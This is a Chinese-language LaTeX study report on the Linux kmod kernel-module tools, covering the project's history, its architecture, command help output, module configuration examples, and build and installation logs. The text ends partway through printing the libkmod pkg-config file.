\chapter{kmod 内核模块工具简介}

\section{项目背景介绍}

kmod 是为了能够操作 Linux 内核模块而推出的一系列工具集,这些操作包括
插入(insert),删除(remove),列出(list),检查属性(check
properties)和解决依赖关系(dependencies)。

这些工具在底层都需要用到 libkmod 这个库,相关的源码也会跟着 kmod
项目一同发布。这个项目的目标是能够实现与在此之前 module-init-tools
项目所提供的工具兼容。

\subsection{建立时间}

从 git.kernel.org 上的 commit log 分析,该项目的建立时间是
2011-11-21。最初的项目是通过继承了 libabc
的框架开始逐步演变而来。2011-12-15 发布了 kmod 1 版本。

\begin{itemize}
\item
  参考项目主页\\
  \url{http://git.kernel.org/cgit/utils/kernel/kmod/kmod.git}
\end{itemize}
\subsection{创建者和维护者}

创建者是 Lucas De Marchi。这个人就职于巴西 Brazil Campinas
的一家公司ProFUSION Embedded
Systems(该公司的主页http://profusion.mobi/),从他在 github
个人项目的帐号创建时间看是 2008年10月30号,应该是属于比较早期的 github
用户。

\begin{itemize}
\item
  参考个人主页\\ \url{https://github.com/lucasdemarchi}
\end{itemize}
\subsection{更新记录}

项目最近一次提交 commit log 表明,该项目近期处于一个比较活跃的状态。从
2013-4-9 发布了最新的 kmod 13
版本之后,该项目几乎每隔1,2天有一次或多次提交。最近的一次提交是
2013-4-17,主要的贡献者仍然是 Lucas De Marchi。

\begin{itemize}
\item
  参考提交记录\\
  \url{http://git.kernel.org/cgit/utils/kernel/kmod/kmod.git/log/}
\end{itemize}
\subsection{版本情况}

第一个可以下载的软件包 kmod-1.tar.gz 是2012-2-24 上传的,最新的软件包
kmod-13.tar.gz 是 2013-4-9 上传的。

目前 kmod 已经发布到了第13个版本,从项目 NEWS 中可以看到,项目从版本 1
就开始支持原来的 insmod/rmmod/lsmod/modprobe
这几个常用命令,发展至今libkmod
库已经提供了100多个函数接口用于方便用户管理内核模块。

\subsection{资源汇总}

\begin{itemize}
\item
  代码下载\\ \url{https://www.kernel.org/pub/linux/utils/kernel/kmod}
\item
  邮件列表\\
  \href{mailto:linux-modules@vger.kernel.org}{\texttt{linux-modules@vger.kernel.org}}
\item
  Git项目仓库\\
  git://git.kernel.org/pub/scm/utils/kernel/kmod/kmod.git\\
  \url{https://git.kernel.org/pub/scm/utils/kernel/kmod/kmod.git}
\item
  Gitweb页面\\ \url{http://git.kernel.org/?p=utils/kernel/kmod/kmod.git}
\end{itemize}
\section{项目架构设计}

kmod-11
项目的整个技术架构分为3层。最上层是tools目录下的6个命令,中间是libkmod库所提供的各种编程接口,最下层是testsuite所包含的系统调用抽象层,便于在用户空间进行接口测试。

kmod-11 项目系统层次结构如图

\begin{figure}[htbp]
\centering

\includegraphics{./figures/0-overview.jpg}
\caption{kmod-11 项目系统结构层次图}
\end{figure}

下面按照这样的三层架构,按照应用层,库接口层,系统调用模拟层的顺序,依次分析。

\subsection{应用层}

应用层实现了6个常用的用户命令,分别是 insmod, rmmod, lsmod, modinfo,
depmod, modprobe.

\begin{figure}[htbp]
\centering

\includegraphics{./figures/1-app.jpg}
\caption{kmod-11 项目应用层结构图}
\end{figure}

\subsubsection{insmod 命令}

该命令的功能是: 向Linux内核中插入一个模块

插入模块时,如果当前模块依赖于其他模块提供的变量或者函数,同时这些被依赖的模块还未添加进入内核,则插入操作就不能成功。只有预先把这些被依赖的模块插入内核后,这个命令才能成功。所以通常我们在插入模块时,更多会使用
modprobe 命令来插入。

{\begin{shaded}\begin{verbatim}
$ ./kmod-11/tools/insmod -h

Usage:
    insmod [options] filename [args]
Options:
    -V, --version     show version
    -h, --help        show this help
\end{verbatim}\end{shaded}}
\subsubsection{rmmod 命令}

该命令的功能是: 删除内核中的模块

删除模块时,如果当前模块还正在被别的模块所使用(依赖),则删除模块操作就不能成功。只有在当前模块的引用计数为0的时候,才能够被真正得从内核中删除掉。

{\begin{shaded}\begin{verbatim}
$ ./kmod-11/tools/rmmod -h
Usage:
    rmmod [options] modulename ...
Options:
    -f, --force       forces a module unload and may crash your
                  machine. This requires Forced Module Removal
                  option in your kernel. DANGEROUS
    -s, --syslog      print to syslog, not stderr
    -v, --verbose     enables more messages
    -V, --version     show version
    -h, --help        show this help
\end{verbatim}\end{shaded}}
\subsubsection{lsmod 命令}

该命令的功能是: 列出内核已载入模块的状态

通过分析 /proc/modules 文件,列出已经加载的模块名称。

{\begin{shaded}\begin{verbatim}
$ ./kmod-11/tools/lsmod -h
Usage: ./kmod-11/tools/lsmod
\end{verbatim}\end{shaded}}
\subsubsection{modinfo 命令}

该命令的功能是: 显示内核模块的信息

通过分析内核模块文件的 ELF
格式,得出该内核模块的相关信息,例如作者,版本,协议等。

{\begin{shaded}\begin{verbatim}
$ ./kmod-11/tools/modinfo -h
Usage:
    modinfo [options] filename [args]
Options:
    -a, --author                Print only 'author'
    -d, --description           Print only 'description'
    -l, --license               Print only 'license'
    -p, --parameters            Print only 'parm'
    -n, --filename              Print only 'filename'
    -0, --null                  Use \0 instead of \n
    -F, --field=FIELD           Print only provided FIELD
    -k, --set-version=VERSION   Use VERSION instead of `uname -r`
    -b, --basedir=DIR           Use DIR as filesystem root for /lib/modules
    -V, --version               Show version
    -h, --help                  Show this help
$ 
\end{verbatim}\end{shaded}}
\subsubsection{depmod 命令}

该命令的功能是: 分析可加载模块的依赖性,生成
/lib/modules/3.2.0-29-generic-pae/modules.dep 文件和映射文件。

depmod 通过读取 /lib/modules/version 目录下的每一个 module
文件,判断每个模块会导出什么符号,同时依赖什么符号。
默认情况下,这个模块列表会写入 modules.dep
文件中,另外还有一个是二进制方式存储了hash表的 modules.dep.bin 文件。

depmod 也会创建所有模块用到的符号表文件
modules.symbols,以及这个文件的二进制版本 modules.symbols.bin。 最后
depmod 还会输出一个 modules.devname
文件,如果这些模块中支持某些特殊设备名 devname。

{\begin{shaded}\begin{verbatim}
$ ./kmod-11/tools/depmod -h
Usage:
    depmod -[aA] [options] [forced_version]

If no arguments (except options) are given, "depmod -a" is assumed

depmod will output a dependency list suitable for the modprobe utility.

Options:
    -a, --all            Probe all modules
    -A, --quick          Only does the work if there's a new module
    -e, --errsyms        Report not supplied symbols
    -n, --show           Write the dependency file on stdout only
    -P, --symbol-prefix  Architecture symbol prefix
    -C, --config=PATH    Read configuration from PATH
    -v, --verbose        Enable verbose mode
    -w, --warn           Warn on duplicates
    -V, --version        show version
    -h, --help           show this help

The following options are useful for people managing distributions:
    -b, --basedir=DIR    Use an image of a module tree.
    -F, --filesyms=FILE  Use the file instead of the
                     current kernel symbols.
    -E, --symvers=FILE   Use Module.symvers file to check
                     symbol versions.
$ 
\end{verbatim}\end{shaded}}
\subsubsection{modprobe 命令}

该命令的功能是:
可以完成向内核中自动添加或者删除(通过-r参数)当前模块和模块所依赖的模块,并且支持
alias 别名方式。

和 insmod 命令所不同的是,modprobe
在挂载模块是不用指定模块文件的路径,也不用带文件的后缀.o 或.ko; 而 insmod
需要的是模块的所在目录的绝对路径,并且一定要带有模块文件名后缀的。
modprobe 会从 linux内核中根据模块的依赖关系,智能地添加或者移除模块。
通过我们只是用 insmod
来验证一下文件的正确性,真正要插入模块的时候,通常还是推荐使用 modprobe。

为了方便,在module名称中的\_和-是一样的,同时模块名称中不能出现小数点,这个工作叫
normalize 正规化。

modprobe在模块目录/lib/modules/\texttt{uname -r}中查找除了
/etc/modprobe.conf配置文件和/etc/modprobe.d目录之外中的模块和其他文件。

modprobe需要一个实时更新的modules.dep文件,这个文件由depmod生成。这个文件列出了每个模块还需要依赖哪些其他的模块。modprobe利用这个文件来自动解决添加和删除模块时候的依赖关系。

{\begin{shaded}\begin{verbatim}
$ ./kmod-11/tools/modprobe -h
Usage:
    modprobe [options] [-i] [-b] modulename
    modprobe [options] -a [-i] [-b] modulename [modulename...]
    modprobe [options] -r [-i] modulename
    modprobe [options] -r -a [-i] modulename [modulename...]
    modprobe [options] -c
    modprobe [options] --dump-modversions filename
Management Options:
    -a, --all                   Consider every non-argument to
                            be a module name to be inserted
                            or removed (-r)
    -r, --remove                Remove modules instead of inserting
        --remove-dependencies   Also remove modules depending on it
    -R, --resolve-alias         Only lookup and print alias and exit
        --first-time            Fail if module already inserted or removed
    -i, --ignore-install        Ignore install commands
    -i, --ignore-remove         Ignore remove commands
    -b, --use-blacklist         Apply blacklist to resolved alias.
    -f, --force                 Force module insertion or removal.
                            implies --force-modversions and
                            --force-vermagic
        --force-modversion      Ignore module's version
        --force-vermagic        Ignore module's version magic

Query Options:
    -D, --show-depends          Only print module dependencies and exit
    -c, --showconfig            Print out known configuration and exit
    -c, --show-config           Same as --showconfig
        --show-modversions      Dump module symbol version and exit
        --dump-modversions      Same as --show-modversions

General Options:
    -n, --dry-run               Do not execute operations, just print out
    -n, --show                  Same as --dry-run
    -C, --config=FILE           Use FILE instead of default search paths
    -d, --dirname=DIR           Use DIR as filesystem root for /lib/modules
    -S, --set-version=VERSION   Use VERSION instead of `uname -r`
    -s, --syslog                print to syslog, not stderr
    -q, --quiet                 disable messages
    -v, --verbose               enables more messages
    -V, --version               show version
    -h, --help                  show this help
$ 
\end{verbatim}\end{shaded}}
模块加载时,会用到配置信息 configuration, 使用 modprobe -c
命令可以查看这些配置信息,包括如下参数 如果用户指定了 -f
参数,则要求强制加载,那么加载程序所需要处理的就是将 .modinfo
字段去掉,然后再交给内核去加载。

\textbf{alias 别名}\\例如

{\begin{shaded}\begin{verbatim}
$ cat /etc/modprobe.d/myalias.conf
alias mymod really_long_module_name
\end{verbatim}\end{shaded}}
\textbf{blacklist 黑名单}\\例如

{\begin{shaded}\begin{verbatim}
$ cat /etc/modprobe.d/blacklist
blacklist ieee1394
blacklist ohci1394
blacklist eth1394
blacklist sbp2
\end{verbatim}\end{shaded}}
\textbf{install 和 remove 命令}\\例如

{\begin{shaded}\begin{verbatim}
$ cat /etc/modprobe.d/ieee1394
install ieee1394 /bin/true
install ohci1394 /bin/true
install eth1394 /bin/true
install sbp2 /bin/true
\end{verbatim}\end{shaded}}
\subsection{库接口层}

库接口层包含了 libkmod 目录下的形如 libkmod-xxx.c
的模块文件,其中涉及用到的编程接口将近100个,形如 kmod\_xxx\_xxx\_xxx
的接口函数。

按照这些接口函数的归属模块划分,我们经过代码分析,可以将它们分为6个重要的核心子模块,分别是
kmod\_ctx, kmod\_module, kmod\_config, kmod\_list, kmod\_elf,
kmod\_file。

\begin{figure}[htbp]
\centering

\includegraphics{./figures/2-core.jpg}
\caption{kmod-11 项目库接口层核心子模块结构图}
\end{figure}

另外还有6个属于基础类的子模块,为以上6个核心子模块提供支持,分别是 hash,
index\_mm,elf,list,array,log。

\begin{figure}[htbp]
\centering

\includegraphics{./figures/2-base.jpg}
\caption{kmod-11 项目库接口层基础子模块结构图}
\end{figure}

以下在模块分析小节将分别对这12个模块进行详细说明。

\subsection{系统调用模拟层}

系统调用模拟层的实现代码主要集中在 testsuite
目录下,其中最重要的2个实现包含 init\_module 系统调用和 delete\_module
系统调用的模拟实现。 在这个目录下,也包含了一系列名为 test-xxx.c
的代码,这些代码其实是属于上层用于测试系统调用模拟层实现的功能,本质上还是为了验证
libkmod 库的接口是否正确。
系统调用模拟层的实现,主要是采用了通过文件来模拟内核空间行为的方法。

例如 init\_module 调用 create\_sysfs\_files 创建了 /sys/module/ 目录下的
initstate 文件,文件内容仅仅就是一个 live
字符串表示该模块已经插入到内核中了。有关这个文件,可以参考如下路径
kmod-11/testsuite/rootfs/test-init/sys/module/ext4/initstate (需要 make
rootfs)

\begin{figure}[htbp]
\centering

\includegraphics{./figures/3-syscall.jpg}
\caption{kmod-11 项目系统调用模拟层结构图}
\end{figure}

\subsection{各层之间相互关系图}

以上的命令,库,核心子模块,基础子模块以及系统调用模拟层,之间的关系并不是明显分开的,而是互相之间有交错的关系。为了更清楚的说明整个系统各个层次之间的调用关系,我们以下图为例,做简要说明。

\begin{figure}[htbp]
\centering

\includegraphics{./figures/sys.jpg}
\caption{kmod-11 项目系统各层结构关系图}
\end{figure}

其中命令层就是应用层,一般命令的实现都会首先使用 kmod\_ctx 和
kmod\_module 两个核心子模块的接口,其中 kmod\_ctx 调用了 kmod\_config
核心子模块和 hash, log, index\_mm 基础子模块的接口功能,kmod\_module
调用了 kmod\_file, kmod\_elf, kmod\_list
这3个核心子模块的接口功能,以及调用了 elf, list
这2个基础子模块的接口功能,同时还使用了模拟层中有关系统调用模拟实现的接口。

因此在我们所列出的6个核心子模块中,kmod\_ctx 和 kmod\_module
这2个核心子模块占据着更为重要的作用,是整个 libkmod
库的核心中的核心。在下面的分析中,我们还会详细论述它们的功能。

\chapter{Kmod-11 项目概要分析}

\section{工具安装使用流程}

\subsection{开发环境准备}

\begin{itemize}
\item
  首先需要安装如下的软件工具
  \begin{itemize}
  \item
    GCC compiler 编译工具
  \item
    GNU C library 标准C库
  \item
    autoconf 自动化配置工具,可以生成项目所需的 makefile
  \item
    shtool 一个兼容之前类似 mkdir.sh/install.sh 的shell脚本工具
  \item
    libtool 制作可生成依赖关系的共享库,生成文件后缀名为 .la, lo
  \item
    xsltproc
    快速XSLT引擎,可以通过XSL层叠样式表把XML转换为其他格式,例如html/pdf
  \end{itemize}
\item
  可选的依赖关系:
  \begin{itemize}
  \item
    ZLIB library
  \item
    LZMA library
  \end{itemize}
\end{itemize}
\subsection{编译和安装}

{\begin{shaded}\begin{verbatim}
$ sudo apt-get install autoconf 
$ sudo apt-get install shtool 
$ sudo apt-get install libtool
$ sudo apt-get install xsltproc 

$ aclocal
$ autoconf
$ ./configure CFLAGS="-g -O2" --prefix=/usr --sysconfdir=/etc --libdir=/usr/lib
$ make && make install
\end{verbatim}\end{shaded}}
\subsection{错误及解决}

代码编译过程会出现不少问题,但都可以通过安装和配置逐一解决。现对编译过程中的问题做一总结:

\subsubsection{autoconf 缺少环境变量文件}

{\begin{shaded}\begin{verbatim}
$ autoconf 
configure.ac:10: error: possibly undefined macro: AM_INIT_AUTOMAKE
      If this token and others are legitimate, please use m4_pattern_allow.
      See the Autoconf documentation.
configure.ac:28: error: possibly undefined macro: AM_PROG_CC_C_O
configure.ac:89: error: possibly undefined macro: AM_CONDITIONAL
$ aclocal
\end{verbatim}\end{shaded}}
通过 aclocal 命令生成,获取当前系统的环境变量,生成一个 aclocal.m4 文件。

\subsubsection{configure 脚本执行时缺少 libtool 工具}

{\begin{shaded}\begin{verbatim}
$ ./configure CFLAGS="-g -O2" --prefix=/usr --sysconfdir=/etc --libdir=/usr/lib
configure: error: cannot find install-sh, install.sh, or shtool in build-aux "."/build-aux
$ autoreconf -f -i -Wall,no-obsolete
Can't exec "libtoolize": No such file or directory at /usr/bin/autoreconf line 196.
Use of uninitialized value in pattern match (m//) at /usr/bin/autoreconf line 196.
$ sudo apt-get install libtool
\end{verbatim}\end{shaded}}
通过 sudo apt-get 安装解决。

\subsubsection{configuire 脚本执行缺少 xsltproc 命令}

{\begin{shaded}\begin{verbatim}
$ ./configure CFLAGS="-g -O2" --prefix=/usr --sysconfdir=/etc --libdir=/usr/lib
configure: error: xsltproc command not found, try ./configure --disable-manpages
$ sudo apt-get install xsltproc 
\end{verbatim}\end{shaded}}
通过 sudo apt-get 安装解决,成功之后,会在当前目录下生成 Makefile 文件。

\subsection{编译过程}

编译过程总体比较顺利,执行 make 和 make install 命令即可完成。

{\begin{shaded}\begin{verbatim}
$ make
make --no-print-directory all-recursive
Making all in .
  CC     libkmod/libkmod.lo
  CC     libkmod/libkmod-list.lo
  CC     libkmod/libkmod-config.lo
  CC     libkmod/libkmod-index.lo
  CC     libkmod/libkmod-module.lo
  CC     libkmod/libkmod-file.lo
  CC     libkmod/libkmod-elf.lo
  CC     libkmod/libkmod-signature.lo
  CC     libkmod/libkmod-hash.lo
  CC     libkmod/libkmod-array.lo
  CC     libkmod/libkmod-util.lo
  CCLD   libkmod/libkmod-util.la
  CCLD   libkmod/libkmod.la
  CCLD   libkmod/libkmod-private.la
  CC     tools/kmod.o
  CC     tools/lsmod.o
  CC     tools/rmmod.o
  CC     tools/insmod.o
  CC     tools/modinfo.o
  CC     tools/modprobe.o
  CC     tools/depmod.o
  CC     tools/log.o
  CC     tools/static-nodes.o
  CCLD   tools/kmod
  CCLD   tools/kmod-nolib
  GEN    tools/insmod
  GEN    tools/rmmod
  GEN    tools/lsmod
  GEN    tools/modprobe
  GEN    tools/modinfo
  GEN    tools/depmod
  GEN    libkmod/libkmod.pc
Making all in libkmod/docs
make[2]: Nothing to be done for `all'.
Making all in man
  GEN    depmod.d.5
  GEN    modprobe.d.5
  GEN    modules.dep.5
  GEN    depmod.8
  GEN    insmod.8
  GEN    lsmod.8
  GEN    rmmod.8
  GEN    modprobe.8
  GEN    modinfo.8
\end{verbatim}\end{shaded}}
由以上编译过程可知,项目主要架构分为2层,上层为 tools
目录下提供的各种工具(兼容之前的命令集,例如 insmod/rmmod),下层为 libkmod
目录下生成的 libkmod.la,为上层工具提供所需要的库函数。

\subsection{生成文件}

{\begin{shaded}\begin{verbatim}
$ ls tools/ -l | grep x
lrwxrwxrwx 1 akaedu akaedu     10 Apr 17 04:43 depmod -> kmod-nolib
lrwxrwxrwx 1 akaedu akaedu     10 Apr 17 04:43 insmod -> kmod-nolib
-rwxrwxr-x 1 akaedu akaedu   8385 Apr 17 04:43 kmod
-rwxrwxr-x 1 akaedu akaedu 488644 Apr 17 04:43 kmod-nolib
lrwxrwxrwx 1 akaedu akaedu     10 Apr 17 04:43 lsmod -> kmod-nolib
lrwxrwxrwx 1 akaedu akaedu     10 Apr 17 04:43 modinfo -> kmod-nolib
lrwxrwxrwx 1 akaedu akaedu     10 Apr 17 04:43 modprobe -> kmod-nolib
lrwxrwxrwx 1 akaedu akaedu     10 Apr 17 04:43 rmmod -> kmod-nolib
\end{verbatim}\end{shaded}}
可以看出以上所有工具,均是 kmod-nolib 的软链接。实现了一个 kmod-nolib
程序,也就实现了之前的各种工具。 这种实现思路,类似于嵌入式开发中的
busybox 项目,也是实现了一堆工具,但只有一个真正的可执行文件。

{\begin{shaded}\begin{verbatim}
$ ls libkmod/ -l | grep lo 
-rw-rw-r-- 1 akaedu akaedu   308 Apr 17 04:43 libkmod-array.lo
-rw-rw-r-- 1 akaedu akaedu   310 Apr 17 04:43 libkmod-config.lo
-rw-rw-r-- 1 akaedu akaedu   304 Apr 17 04:43 libkmod-elf.lo
-rw-rw-r-- 1 akaedu akaedu   306 Apr 17 04:43 libkmod-file.lo
-rw-rw-r-- 1 akaedu akaedu   306 Apr 17 04:43 libkmod-hash.lo
-rw-rw-r-- 1 akaedu akaedu   308 Apr 17 04:43 libkmod-index.lo
-rw-rw-r-- 1 akaedu akaedu   306 Apr 17 04:43 libkmod-list.lo
-rw-rw-r-- 1 akaedu akaedu   296 Apr 17 04:43 libkmod.lo
-rw-rw-r-- 1 akaedu akaedu   310 Apr 17 04:43 libkmod-module.lo
-rw-rw-r-- 1 akaedu akaedu   316 Apr 17 04:43 libkmod-signature.lo
-rw-rw-r-- 1 akaedu akaedu   306 Apr 17 04:43 libkmod-util.lo
\end{verbatim}\end{shaded}}
上面所列的 lo 文件中,libkmod-module.lo
中包含了在整个库中,最靠近上层调用所需要用的接口函数。其他的 lo
文件基本上都是为 libkmod-module.lo 所服务的,比较重要的例如 libkmod-elf,
libkmod-file, libkmod-list 等。

{\begin{shaded}\begin{verbatim}
$ ls libkmod/ -l | grep la
-rw-rw-r-- 1 akaedu akaedu   923 Apr 17 04:43 libkmod.la
-rw-rw-r-- 1 akaedu akaedu   893 Apr 17 04:43 libkmod-private.la
-rw-rw-r-- 1 akaedu akaedu   884 Apr 17 04:43 libkmod-util.la
\end{verbatim}\end{shaded}}
最终提供的库文件是以 libkmod.la 的形式存在。

{\begin{shaded}\begin{verbatim}
$ ls libkmod/ -l | grep pc
-rw-rw-r-- 1 akaedu akaedu   210 Apr 17 04:43 libkmod.pc
-rw-rw-r-- 1 akaedu akaedu   255 Apr 17 00:53 libkmod.pc.in
\end{verbatim}\end{shaded}}
此文件暂时没看出有什么特殊的作用,只包含了一些对当前库的说明信息,是一个纯文本文件。

\subsection{安装过程}

{\begin{shaded}\begin{verbatim}
$ make && make install
make --no-print-directory all-recursive
Making all in .
Making all in libkmod/docs
make[2]: Nothing to be done for `all'.
Making all in man
make[2]: Nothing to be done for `all'.
Making install in .
test -z "/usr/lib" || /bin/mkdir -p "/usr/lib"
 /bin/bash ./libtool   --mode=install /usr/bin/install -c   libkmod/libkmod.la '/usr/lib'
libtool: install: /usr/bin/install -c libkmod/.libs/libkmod.so.2.2.3 /usr/lib/libkmod.so.2.2.3
/usr/bin/install: cannot create regular file `/usr/lib/libkmod.so.2.2.3': Permission denied
make[2]: *** [install-libLTLIBRARIES] Error 1
make[1]: *** [install-am] Error 2
make: *** [install-recursive] Error 1
\end{verbatim}\end{shaded}}
编译过程中,因为需要用到对 /usr/bin 目录的读写权限,因此需要用 sudo
来执行。

{\begin{shaded}\begin{verbatim}
$ sudo make install
Making install in .
test -z "/usr/lib" || /bin/mkdir -p "/usr/lib"
 /bin/bash ./libtool   --mode=install /usr/bin/install -c   libkmod/libkmod.la '/usr/lib'
libtool: install: /usr/bin/install -c libkmod/.libs/libkmod.so.2.2.3 /usr/lib/libkmod.so.2.2.3
libtool: install: (cd /usr/lib && { ln -s -f libkmod.so.2.2.3 libkmod.so.2 || { rm -f libkmod.so.2 && ln -s libkmod.so.2.2.3 libkmod.so.2; }; })
libtool: install: (cd /usr/lib && { ln -s -f libkmod.so.2.2.3 libkmod.so || { rm -f libkmod.so && ln -s libkmod.so.2.2.3 libkmod.so; }; })
libtool: install: /usr/bin/install -c libkmod/.libs/libkmod.lai /usr/lib/libkmod.la
libtool: finish: PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/sbin" ldconfig -n /usr/lib
----------------------------------------------------------------------
Libraries have been installed in:
   /usr/lib

If you ever happen to want to link against installed libraries
in a given directory, LIBDIR, you must either use libtool, and
specify the full pathname of the library, or use the `-LLIBDIR'
flag during linking and do at least one of the following:
   - add LIBDIR to the `LD_LIBRARY_PATH' environment variable
     during execution
   - add LIBDIR to the `LD_RUN_PATH' environment variable
     during linking
   - use the `-Wl,-rpath -Wl,LIBDIR' linker flag
   - have your system administrator add LIBDIR to `/etc/ld.so.conf'

See any operating system documentation about shared libraries for
more information, such as the ld(1) and ld.so(8) manual pages.
----------------------------------------------------------------------
test -z "/usr/bin" || /bin/mkdir -p "/usr/bin"
  /bin/bash ./libtool   --mode=install /usr/bin/install -c tools/kmod '/usr/bin'
libtool: install: /usr/bin/install -c tools/.libs/kmod /usr/bin/kmod
make --no-print-directory install-exec-hook
if test "/usr/lib" != "/usr/lib"; then \
        /bin/mkdir -p /usr/lib && \
        so_img_name=$(readlink /usr/lib/libkmod.so) && \
        so_img_rel_target_prefix=$(echo /usr/lib | sed 's,\(^/\|\)[^/][^/]*,..,g') && \
        ln -sf $so_img_rel_target_prefix/usr/lib/$so_img_name /usr/lib/libkmod.so && \
        mv /usr/lib/libkmod.so.* /usr/lib; \
    fi
test -z "/usr/include" || /bin/mkdir -p "/usr/include"
 /usr/bin/install -c -m 644 libkmod/libkmod.h '/usr/include'
test -z "/usr/lib/pkgconfig" || /bin/mkdir -p "/usr/lib/pkgconfig"
 /usr/bin/install -c -m 644 libkmod/libkmod.pc '/usr/lib/pkgconfig'
Making install in libkmod/docs
make[2]: Nothing to be done for `install-exec-am'.
make[2]: Nothing to be done for `install-data-am'.
Making install in man
make[2]: Nothing to be done for `install-exec-am'.
test -z "/usr/share/man/man5" || /bin/mkdir -p "/usr/share/man/man5"
 /usr/bin/install -c -m 644 depmod.d.5 modprobe.d.5 modules.dep.5 modules.dep.bin.5 '/usr/share/man/man5'
test -z "/usr/share/man/man8" || /bin/mkdir -p "/usr/share/man/man8"
 /usr/bin/install -c -m 644 depmod.8 insmod.8 lsmod.8 rmmod.8 modprobe.8 modinfo.8 '/usr/share/man/man8'
$ sudo make install
\end{verbatim}\end{shaded}}
这个 make 和 make install
的过程,帮助我们理清了哪些文件参与最后的编译生成过程。特别是对于最后 make
install
的执行分析,也让我们了解了项目最终要实现的目标和生成的重要文件。以下将对这一过程展开详细分析。

\subsection{安装文件说明}

{\begin{shaded}\begin{verbatim}
$ ls /usr/lib/libkmod.so
libkmod.so        libkmod.so.2      libkmod.so.2.2.3  
$ ls /usr/lib/libkmod.so* -l
lrwxrwxrwx 1 root root     16 Apr 17 04:55 /usr/lib/libkmod.so -> libkmod.so.2.2.3
lrwxrwxrwx 1 root root     16 Apr 17 04:55 /usr/lib/libkmod.so.2 -> libkmod.so.2.2.3
-rwxr-xr-x 1 root root 313349 Apr 17 04:55 /usr/lib/libkmod.so.2.2.3
\end{verbatim}\end{shaded}}
libkmod.so 是一个软链接,安装在系统的 /usr/lib
目录下,链接的时候只需要指定 -lkmod 就可以。

{\begin{shaded}\begin{verbatim}
$ ls /usr/lib/libkmod.l* -l
-rwxr-xr-x 1 root root 924 Apr 17 04:55 /usr/lib/libkmod.la

$ ls /usr/lib/libkmod.* -l
-rwxr-xr-x 1 root root    924 Apr 17 04:55 /usr/lib/libkmod.la
lrwxrwxrwx 1 root root     16 Apr 17 04:55 /usr/lib/libkmod.so -> libkmod.so.2.2.3
lrwxrwxrwx 1 root root     16 Apr 17 04:55 /usr/lib/libkmod.so.2 -> libkmod.so.2.2.3
-rwxr-xr-x 1 root root 313349 Apr 17 04:55 /usr/lib/libkmod.so.2.2.3
\end{verbatim}\end{shaded}}
真正起作用的 so 文件,也就是 libkmod 共享库的 real name 是
libkmod.so.2.2.3。

{\begin{shaded}\begin{verbatim}
$ ls /usr/bin/kmod  -l
-rwxr-xr-x 1 root root 233584 Apr 17 04:55 /usr/bin/kmod
$ file /usr/bin/kmod
/usr/bin/kmod: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x9d4131d1eb78b1e1852cc5ad44f06417ae3caa3c, not stripped
$ kmod
missing command
kmod - Manage kernel modules: list, load, unload, etc
Usage:
    kmod [options] command [command_options]

Options:
    -V, --version     show version
    -h, --help        show this help

Commands:
  help         Show help message
  list         list currently loaded modules
  static-nodes outputs the static-node information installed with the currently running kernel

kmod also handles gracefully if called from following symlinks:
  lsmod        compat lsmod command
  rmmod        compat rmmod command
  insmod       compat insmod command
  modinfo      compat modinfo command
  modprobe     compat modprobe command
  depmod       compat depmod command
\end{verbatim}\end{shaded}}
kmod 是一个工具,可以实现内核模块的 list 和
打印输出已经被加载的内核模块的详细信息。

{\begin{shaded}\begin{verbatim}
$ ls /usr/include/libkmod.h -l
-rw-r--r-- 1 root root 9429 Apr 17 04:55 /usr/include/libkmod.h
$ 文件内容见下面小节
\end{verbatim}\end{shaded}}
头文件是最重要的生成文件,会被之后所有调用 libkmod
库的上层应用所包含。一个文件就包含了所有需要用的函数接口声明,使用起来也非常方便。只不过这个文件中包含了较多的函数,互相之间不是平行的,内部是有上下层次关系的。

{\begin{shaded}\begin{verbatim}
$ ls /usr/lib/pkgconfig/libkmod.pc -l
-rw-r--r-- 1 root root 210 Apr 17 04:55 /usr/lib/pkgconfig/libkmod.pc
$ cat /usr/lib/pkgconfig/libkmod.pc 
prefix=/usr
exec_prefix=/usr
libdir=/usr/lib
includedir=/usr/include

Name: libkmod
Description: Library to deal with kernel modules
Version: 13
Libs: -L${libdir} -lkmod
Libs.private:  
